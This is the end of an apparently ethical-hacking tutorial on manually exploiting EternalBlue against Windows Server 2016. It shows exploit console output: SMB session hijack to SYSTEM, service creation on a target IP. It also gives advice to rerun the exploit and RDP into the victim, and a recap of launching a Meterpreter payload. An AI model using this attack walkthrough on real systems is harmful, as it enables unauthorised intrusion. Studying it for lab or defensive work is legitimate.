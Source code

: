 ```
Target OS: Windows Server 2016 Standard Evaluation 14393
Target is 64 bit
Got frag size: 0x20
GROOM_POOL_SIZE: 0x5030
BRIDE_TRANS_SIZE: 0xf90
CONNECTION: 0xffff928c5dc48020
SESSION: 0xffffac0165773250
FLINK: 0xffffac0167056098
InParam: 0xffffac016705016c
MID: 0x2a07
success controlling groom transaction
modify trans1 struct for arbitrary read/write
make this SMB session to be SYSTEM
overwriting session security context
Opening SVCManager on 10.10.0.100.....
Creating service Jepa.....
Starting service Jepa.....
SCMR SessionError: code: 0x41d - ERROR_SERVICE_REQUEST_TIMEOUT - The service did not respond to the start or control request in a timely fashion.
Removing service Jepa.....
Opening SVCManager on 10.10.0.100.....
Creating service YTXT.....
Starting service YTXT.....
The NETBIOS connection with the remote host timed out.
Removing service YTXT.....
ServiceExec Error on: 10.10.0.100
nca_s_proto_error
Done
```

{% hint style="warning" %}
Ignore the errors from this exploit, it makes it seem like it didn't work. Just keep trying to log into RDP/running the exploit a few times. If it still doesn't work, you may have done something wrong.
{% endhint %}

Now just rdesktop into the victim and you should be good to go.

## Wrapping Up

In this tutorial, we covered how to manually exploit EternalBlue on Windows Server. We began by setting up a few things in order to get the proof of concept to work. Next, we generated some shellcode and hosted the payload on our machine. After that, we modified the code, launched the exploit, and successfully got a Meterpreter session on the target. Even though Metasploit contains a module to do all this automatically, it's beneficial to know how to do things the hard way, just in case something needs tweaking for a specific target or scenario.

**Want to start making money as a white hat hacker?** Jump-start your white-hat hacking career with our [2020 Premium Ethical Hacking Certification Training Bundle](https://shop.null-byte.com/sales/the-2020-premium-ethical-hacking-certification-bundle?utm\_source=null-byte.com\&utm\_medium=below-article\&utm\_campaign=the-2020-premium-ethical-hacking-certification-bundle) from the new Null Byte Shop and get over 60 hours of training from ethical hacking professionals.
